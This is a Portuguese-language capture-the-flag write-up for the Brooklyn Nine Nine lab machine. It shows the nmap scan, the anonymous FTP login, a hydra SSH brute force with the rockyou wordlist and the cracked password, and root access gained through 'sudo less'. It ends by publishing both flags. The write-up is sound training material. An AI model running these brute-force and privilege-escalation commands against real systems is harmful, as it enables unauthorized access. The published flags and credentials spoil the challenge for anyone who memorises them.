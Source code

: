 B99 CTF

Ao iniciar a maquina dei comando nmap para saber as portas daquele IP

    nmap -A IP

Assim encontrando 3 portas 

    21, 22, 80

Entrando na aplicacao web e vizualizando algumas coisas vimos que nao tinha nada importante no site.. assim entao indo atras da conexao ftp

Como se conectar a um ftp anonymous?

    ftp IP 

Ao colocar username anonymous nao tem senha.. somente dar um enter.

E assim entrando no ftp que apos dar um ls vimos que tinha um arquivo chamado   
    
    "note_to_jake.txt"

Nesse arquivo tinha o seguinte texto..

    From Amy, 
    Jake please change your password, It is too weak and holt will be mad someone hacks into nine nine

Assim deixando claro que o user Jake tinha uma senha fraca...
Percebendo isso era so fazer um BRUTEFORCE com o seguinte comando usando HYDRA..

    hydra -l jake -P rockyou.txt -t 4 IP ssh

Ao encontrar ele mostra a seguinte mensagem 

    [22][ssh] host: IP login: jake   password: 987654321

Ao fazer a conexao ssh com o user jake..
iniciei a procura pela primeira flag, encontrando tres usuarios 

    "Amy" "Holt" "Jake"

Por se tratar de um CTF tematico pode se deduzir que a flag estaria no usuario Holt..

Dentro da pasta do usuario Holt tinha o seguinte arquvio "user.txt" ao ler o arquivo..

    ee11cbb19052e40b07aac0ca060c23ee

Conseguia-se a primeira flag, assim tendo que ir atras da segunda que o desafio deixa claro que fica no root, bom nessas horas procuramos saber o que nosso user tem acesso, com o seguinte comando 

    sudo -l
    usr/bin/less

Ou seja... nosso user pode ler qualquer arquivo do sistema 
assim tendo somente que encontrar onde estava o arquivo.. como o CTF informou que estava na pasta root e como o nome da primeira flag era igual ao nome da quest deduzia-se que a segunda flag estaria na pasta root com o nome de root.. sendo possivel

    sudo less /root/root.txt

Conseguindo a segunda flag

    63a9f0ea7bb98050796b649e85481845

E finalizando o desafio!

FLAGS

    FLAG 1: ee11cbb19052e40b07aac0ca060c23ee
    FLAG 2: 63a9f0ea7bb98050796b649e85481845